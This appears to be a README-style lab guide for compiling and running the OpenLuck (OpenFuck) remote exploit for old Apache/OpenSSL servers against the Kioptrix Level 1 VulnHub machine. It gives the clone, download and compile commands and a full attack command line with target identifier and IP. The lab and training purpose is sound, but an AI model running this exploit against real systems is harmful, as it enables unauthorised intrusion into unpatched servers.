 

---

# 💻 OpenLuck Exploit 

**OpenLuck** (formerly **OpenFuck**) is an updated version of the classic **OpenFuck** exploit (Exploit-DB ID 764). It is used to exploit vulnerabilities in older Apache + OpenSSL setups. This guide will walk you through setting up and running OpenLuck to exploit these vulnerabilities.

## 🔗 **Kioptrix: Level 1 (#1)**

**VulnHub Link**: [Kioptrix: Level 1 (#1)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

---

## **Getting Started with OpenLuck**

### **Clone the Repository**

To begin, clone the **OpenLuck** repository from GitHub:

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
```

Navigate to the **OpenLuck** directory:

```bash
cd OpenFuck
```

### **Download Updated OpenFuck.c**

(Optional: If needed, manually update `OpenFuck.c`.)

```bash
wget https://raw.githubusercontent.com/heltonWernik/OpenLuck/master/OpenFuck.c
```

### **Install Dependencies**

You need to install **libssl-dev** to compile the exploit:

```bash
apt install libssl-dev
```

### **Compile the Exploit**

Now, compile the `OpenFuck.c` file using **gcc**:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

---

## **Running OpenLuck**

### **Step 1: View Available Target Options**

To see the available target options, run:

```bash
./OpenFuck
```

### **Step 2: Select the Correct Target**

Choose the appropriate target. For example, for **Red Hat Linux with Apache 1.3.20**, use target identifier `0x6a`.

### **Step 3: Run the Exploit**

Run the exploit with the selected target option. Here's an example of how to run the exploit:

```bash
./OpenFuck 0x6a 192.168.1.203 443 -c 40
```

Where:

* `0x6a` is the target platform identifier.
* `192.168.1.203` is the target IP address.
* `443` is the SSL service port.
* `-c 40` defines the number of connection attempts/threads.

---

## **References**

* **Exploit-DB #764**: [Exploit-DB Link](https://www.exploit-db.com/exploits/764)
* **Kongwenbin's Blog**: [Blog Link](https://kongwenbin.wordpress.com/tag/openfuck/)
* **Javarmutt's Guide**: [Medium Guide](https://monkeydouy.medium.com/how-to-compile-openfuckv2-c-69e457b4a1d1)

---

## ⚠️ **Legal Warning**

* **Important**: Use this exploit only in authorized environments (e.g., labs, CTFs, or with explicit permission).

---


